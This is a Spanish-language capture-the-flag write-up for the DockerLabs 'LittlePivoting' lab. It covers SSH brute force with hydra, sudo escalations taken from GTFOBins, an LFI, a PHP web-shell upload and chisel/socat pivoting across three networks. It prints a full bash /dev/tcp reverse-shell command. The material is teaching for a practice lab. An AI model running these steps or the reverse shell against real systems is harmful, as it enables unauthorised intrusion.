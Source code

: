 ###CTF Pivoting – DockerLabs (LittlePivoting)

Hoy os comparto un WriteUp de la maquina LittlePivoting de DockerLabs la cual me ha ayudado a recordar como realizar pivoting entre diferentes redes, cosa que llevaba bastante tiempo sin realizar. 
Antes que nada, “Pivoting” es una técnica la cual permite a un atacante acceder a máquinas que estén en distintas redes.
Para desplegar el laboratorio, descargaremos el .zip desde el siguiente enlace o accederemos a la página oficial de DockerLabs y descargaremos el laboratorio “LittlePivoting”.
Una vez descargado,
1.	Descomprimimos el .zip
 

2.	Damos permisos de ejecución al archivo “auto_deploy.sh”
 

3.	Desplegamos el entorno.
 

Perfecto, ya tenemos el entorno listo para empezar. Nuestra máquina atacante tendrá la IP 10.10.10.1 y las redes serán las siguientes:
 
Esquema de red

Primera máquina vulnerable
Lo primero que vamos a hacer es escanear la maquina con la que tenemos conexión (TRUST 10.10.10.2) en busca de puertos abiertos con la herramienta Nmap
 
Encontramos los puertos 22 (ssh) y 80 (http) abiertos. Ahora, vamos a emplear Nmap otra vez, pero con una serie de parámetros para obtener la versión y servicios corriendo en estos puertos.

 
Perfecto, en el puerto 22 tenemos SSH y en el 80 el servicio de Apache2. 
Accedemos a la web
 
Tanto en la web como en el código (Cntl+U) de la misma no encontramos nada, por lo que vamos a emplear la herramienta gobuster para intentar encontrar directorios dentro de esta web.
 
Encontramos un archivo secret.php el cual nos lleva a la siguiente página:
 
Al no encontrar nada más, suponemos que “Mario” podría ser un usuario del sistema y si recordamos también estaba el puerto 22 abierto. Por lo que vamos a intentar hacer fuerza bruta al ssh para conseguir la contraseña de Mario. Emplearemos la herramienta hydra y el famoso diccionario rockyou:

 
Perfecto!! La contraseña del usuario “mario” para establecer una conexión ssh con la primera máquina es “chocolate”. Vamos a conectarnos y a ver que encontramos.
 
Nos encontramos en su home, nuestra finalidad es conseguir elevar privilegios al usuario “root” en cada máquina. Al leer el archivo “/etc/passwd” y no encontrar más usuarios aparte que el de “mario”, suponemos que la escalada será directamente al usuario “root” sin pasar por elevaciones laterales.
Si ejecutamos el comando sudo -l observamos que podemos ejecutar el binario vim con privilegios elevados.
Una muy buena página que nos va a ayudar a saber como aprovecharnos de este binario y escalar a root es GTFOBins
 
En el buscador escribimos “vim” y seleccionamos la opción de “Sudo”, la cual nos dirá cómo explotar la vulnerabilidad.
 
Usaremos la opción a) y listo, somos root de la primera máquina.
 (bash -p)

Perfecto, ahora deberemos conocer qué otra red hay en esta máquina. Para ello usaremos el comando hostname -I
 
La nueva red es la 20.20.20.X, vamos a pasarnos desde nuestra máquina atacante un script para realizar un escaneo:
Máquina atacante
 
Primera máquina vulnerable
 
Script
 
(el escaneo lo realizamos sobre la red “20.20.20.x” que es la que acabamos de descubrir anteriormente con el comando hostname -I)
Al no tener “ping” ni “nc” la máquina vulnerable, nos aprovechamos de “/dev/tcp/”

Bien, obtenemos la ip “20.20.20.2” (la de esta misma máquina), y la 20.20.20.3 (la nueva máquina descubierta).
¿Pues, volvamos a realizar todo el mismo proceso que hemos hecho con la anterior máquina verdad? 
Pues no, aquí nos encontramos con el problema de que a esta nueva red 20.20.20.x no tenemos conexión directa desde nuestra máquina atacante que se encuentra en la red 10.10.10.x. Por lo que comienza el pivoting.

Para tener conexión desde nuestra red a esta nueva, deberemos emplear túneles socks5 con la herramienta chisel, la cual también tendremos que pasarla a la máquina vulnerada como hicimos con el escáner.

Máquina atacante
Creamos el servidor chisel
 
Primera máquina vulnerable
Nos conectamos al servidor chisel creado anteriormente y además con acceso a todos los puertos de la máquina vulnerable.
 

Al conectarnos se abrirá el puerto 1080 en la máquina atacante, que es el que hará el intercambio de comunicaciones entre las máquinas.
Si nunca habéis usado socks5 deberéis de añadir esta línea al final del archivo /etc/proxychains4.conf
socks5 127.0.0.1:1080

Perfecto, ahora ya podemos escanear los puertos abiertos a la segunda máquina vulnerable. Para ello pondremos proxychains delante del comando nmap






Segunda máquina vulnerable
 
Al igual que la anterior nos encontramos con los puertos 22 y 80.
Para poder acceder a la web que se encuentra en el puerto 80 tendremos que configurar la extensión FoxyProxy con la siguiente configuración
 
Y podremos acceder a la web
 

Lo mismo, procedemos a realizar fuzzing web para buscar directorios. Con gobuster no podemos usar proxychains, pero si un parámetro de la herramienta –proxy.
 
Encontramos el directorio /shop, que si accedemos a él veremos lo siguiente
 

Si observamos en la parte de abajo, observamos que dice “Error de Sistema: ($_GET['archivo']");” 
Por lo que podemos sospechar de la existencia de una variable de PHP que contendrá el parámetro “archivo” pasado a través de la URL.
(como cuando intentamos realizar un LogPoisoning)

Probamos a realizar un LFI al parámetro “archivo” para ver si podemos leer el documento /etc/passwd
 
Voilá, funcionó. ¿Con que existen dos usuarios, seller y manchi?
Pues como en la anterior máquina usaremos hydra, rockyou y un padre nuestro.







Con seller no consigo nada, por lo que probaré con manchi y obtenemos su contraseña:
 
Nos conectamos y vemos como elevar privilegios.
 
Vaya, se nos complica la cosa… Vamos a intentar fuerza bruta contra el usuario seller mediante el script Linux-Su-Force.sh y el diccionario rockyou.

Estos se lo pasaremos a la primera máquina vulnerable y seguidamente de esta, a la segunda máquina vulnerable.

manchi@497f53443d88:/tmp$ bash Linux-Su-Force.sh seller rockyou.txt
 
Nos conectamos a con seller y con sudo -l vemos que puede ejecutar el binario /usr/bin/php con permisos privilegiados
 
Recurrimos nuevamente a la página GTFOBins y ejecutamos los comandos del apartado “Sudo”
 
 
¡SEGUNDA MÁQUINA VULNERADA!
Ahora, nuevamente usaremos hostname -I para descubrir la nueva red y el script escaner (que modificaremos poniendo la nueva red) para descubrir la IP de la tercera y última máquina.
 
Nueva red: 30.30.30.x
 
Nueva IP: 30.30.30.3

OKAY. Ahora, tenemos el problema de que desde mi maquina atacante 10.10.10.x no podemos ver la nueva red 30.30.30.x, pero esta si puede ver la 20.20.20.x.
Por lo que emplearemos una nueva herramienta llamada socat. Lo que está hará, será permitirnos que con la ayuda de chisel desde la maquina 30.30.30.2, nos conectemos a la máquina 20.20.20.2, y esa conexión será redirigida a la 10.10.10.1, la nuestra.

Mario primera maquina cogemos socat y se la pasamos a manchi/seller segunda maquina y loe ejecutamos 

Primera máquina vulnerable
 



Segunda máquina vulnerable
 

Máquina atacante
 

Tercera máquina vulnerable
Por último, realizamos un escaneo de puertos abiertos a la nueva máquina descubierta anteriormente (30.30.30.3)
 
Para acceder a la web, deberemos realizar una segunda configuración en FoxyProxy:
 


Y podremos acceder:
 
Usamos gobuster en busca de directorios que nos puedan interesar:
 
Bien, vamos a intentar subir un archivo que nos permita ejecutar comandos por la URL. (como en la segunda máquina)
Aún no sabemos si podemos subir archivos .php. En caso de no poder, deberíamos de realizar una fuerza bruta en la subida de archivos, por ejemplo con BurpSuite, y ver que extensiones son válidas.

 

 
Si podemos subir archivos .php. Acedemos a /uploads/ accedemos al archivo cmd.php. Ahora, en la URL probamos a ejecutar el comando id.
 

Perfecto, por lo que podemos intentar enviarnos una reverse shell.
La reverse shell será enviada a la máquina 30.30.30.2:443, la 20.20.20.3, redirigirá todo lo que venga por la 443 hacia la 20.20.20.2:442, y finalmente de la 20.20.20.2:442 a la 10.10.10.1:441

Segunda máquina vulnerable
 
Primera máquina vulnerable
 

Ahora, en la máquina atacante nos ponemos en escucha por el 441 en una nueva terminal ye ejecutamos la reverse shell en la URL
bash -c "bash -i >%26/dev/tcp/30.30.30.2/443 0>%261"
 
 
Ya tendríamos acceso a la tercera y última máquina vulnerable.
Escalamos privilegios
 
Buscamos la manera de escalar privilegios en GTFOBins
 
 

Y ya habríamos terminado el laboratorio.
Hay que mencionar que este laboratorio está pensado para practicar pivoting, por eso de la facilidad de acceder a las máquinas y elevar privilegios.

¡Espero que os haya gustado y aprendido algo nuevo, un saludo!
